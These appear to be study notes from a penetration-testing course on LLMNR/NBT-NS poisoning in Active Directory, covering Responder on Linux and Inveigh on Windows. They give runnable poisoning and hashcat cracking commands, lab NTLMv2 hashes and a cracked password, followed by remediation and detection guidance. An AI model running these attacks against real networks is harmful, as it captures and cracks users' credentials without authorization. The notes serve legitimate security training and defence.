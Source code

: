 # LLMNR/NBT-NS Poisoning (from Linux)

This section covers a common technique for gaining an initial foothold in an AD environment: Man-in-the-Middle attacks on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts. The goal is to capture password hashes or cleartext credentials for domain user accounts.

---

## LLMNR & NBT-NS Primer
- **LLMNR (UDP 5355):** DNS-like protocol for local name resolution when DNS fails.
- **NBT-NS (UDP 137):** NetBIOS-based name resolution for local networks.
- If DNS fails, Windows will broadcast LLMNR/NBT-NS requests to the local network. Any host can reply, making poisoning possible.

### Attack Flow (Visual)
```mermaid
sequenceDiagram
    participant Victim
    participant Attacker
    participant DNS
    Victim->>DNS: Query for printer01.inlanefreight.local
    DNS-->>Victim: Host unknown
    Victim->>Network: LLMNR/NBT-NS broadcast (Who is printer01?)
    Attacker-->>Victim: I am printer01!
    Victim->>Attacker: Sends authentication (NTLMv2 hash)
    Attacker-->>Attacker: Captures hash for offline cracking or relay
```

---

## Tools for LLMNR/NBT-NS Poisoning
| Tool       | Description                                                                 |
|------------|-----------------------------------------------------------------------------|
| Responder  | Python tool for LLMNR, NBT-NS, MDNS poisoning and credential capture.       |
| Inveigh    | Cross-platform MITM tool for spoofing/poisoning (C#/PowerShell).            |
| Metasploit | Has modules for LLMNR/NBT-NS poisoning and credential capture.              |

---

## Using Responder
Responder is the most common tool for this attack. It can run in passive (analyze) or active (poison) mode.

### Common Responder Options
- `-A` : Analyze mode (listen only, no poisoning)
- `-I <iface>` : Network interface to use
- `-w` : Start WPAD rogue proxy server
- `-f` : Fingerprint hosts
- `-v` : Verbose output

### Example: Start Responder in Poisoning Mode
```bash
sudo responder -I ens224
```

### Example: Start Responder in Analyze Mode
```bash
sudo responder -I ens224 -A
```

Responder will print captured hashes to the console and save them in `/usr/share/responder/logs/`.

---

## Ports to Monitor/Poison
- UDP 137, 138, 53, 5355, 5353
- TCP 80, 135, 139, 445, 1433, 21, 25, 110, 587, 3128, 3141, 389

---

## Example: Captured Hashes
Responder saves hashes in files like `SMB-NTLMv2-SSP-<IP>.txt`.

---

## Cracking Captured Hashes
Captured NTLMv2 hashes can be cracked offline with Hashcat or John.

### Example: Crack NTLMv2 Hash with Hashcat
```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
```

**Sample Output:**
```
FOREND::INLANEFREIGHT:4af70a79938ddf8a:...:Klmcargo2
Status...........: Cracked
Hash.Name........: NetNTLMv2
Recovered........: 1/1 (100.00%) Digests
```

---

## Key Points
- LLMNR/NBT-NS poisoning is a powerful way to capture credentials in AD environments.
- Use Responder or Inveigh to listen and poison requests.
- Captured hashes can be cracked offline for cleartext passwords.
- Always run with proper scope and permissions.

---


## LLMNR/NBT-NS Poisoning - from Windows

LLMNR & NBT-NS poisoning is possible from a Windows host as well. In this section, we use Inveigh (PowerShell and C#) to capture credentials, similar to Responder on Linux.

---

### Inveigh Overview
- Inveigh is a MITM tool for spoofing/poisoning LLMNR, NBNS, mDNS, DNS, DHCPv6, HTTP, SMB, LDAP, and more.
- Available in PowerShell and C# versions (InveighZero).
- Can listen on IPv4/IPv6 and capture NTLM hashes and cleartext credentials.
- Typically found in `C:\Tools` on the Windows attack host.

---

### Using Inveigh (PowerShell)
```powershell
# Import the module
Import-Module .\Inveigh.ps1
# List all parameters
(Get-Command Invoke-Inveigh).Parameters
# Start LLMNR/NBNS spoofing, output to console and file
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
**Sample Output:**
```
[*] Inveigh 1.506 started at ...
[+] LLMNR Spoofer = Enabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] Output Directory = C:\Tools
[+] File Output = Enabled
[+] Console Output = Full
... (hashes and requests captured)
```

---

### Using Inveigh (C# / InveighZero)
```powershell
# Run the C# executable
.\Inveigh.exe
```
**Sample Output:**
```
[*] Inveigh 2.0.4 [Started ...]
[+] LLMNR Packet Sniffer [Type A]
[+] HTTP Listener [HTTPAuth NTLM | Port 80]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
... (hashes and requests captured)
```

#### Interactive Console
- Press `ESC` to enter/exit the interactive console.
- Use commands like `GET NTLMV2UNIQUE` to view unique captured hashes, or `GET NTLMV2USERNAMES` to list usernames.

---

### Example: Captured Hashes and Usernames
```
backupagent::INLANEFREIGHT:B5013246091943D7:16A41B703C8D4F8F6AF75C47C3B50CB5:... (NTLMv2 hash)
forend::INLANEFREIGHT:32FD89BD78804B04:DFEB0C724F3ECE90E42BAF061B78BFE2:... (NTLMv2 hash)

IP Address      Host                Username
172.16.5.125    ACADEMY-EA-FILE     INLANEFREIGHT\backupagent
172.16.5.125    ACADEMY-EA-FILE     INLANEFREIGHT\forend
```

---

### Remediation
- **Disable LLMNR:**
  - Group Policy: Computer Configuration → Administrative Templates → Network → DNS Client → "Turn OFF Multicast Name Resolution"
- **Disable NBT-NS:**
  - Locally: Network Adapter Properties → IPv4 → Advanced → WINS → Disable NetBIOS over TCP/IP
  - Or via PowerShell script:
    ```powershell
    $regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
    Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
    ```
- **Push via GPO:** Use a startup script in Group Policy to apply the above PowerShell script domain-wide.
- **Other mitigations:**
  - Filter/block LLMNR/NetBIOS traffic
  - Enable SMB Signing
  - Use IDS/IPS and network segmentation

---

### Detection
- Monitor for traffic on UDP 5355 (LLMNR) and 137 (NBT-NS)
- Watch for Windows Event IDs 4697 and 7045
- Monitor registry key `HKLM\Software\Policies\Microsoft\Windows NT\DNSClient` for `EnableMulticast` changes
- Use honeytokens (fake LLMNR/NBT-NS requests) to detect spoofing responses

---

LLMNR/NBT-NS poisoning from Windows is just as effective as from Linux. Inveigh provides a powerful, flexible way to capture credentials and hashes for offline cracking or relay attacks. Always ensure you have authorization and operate within scope.
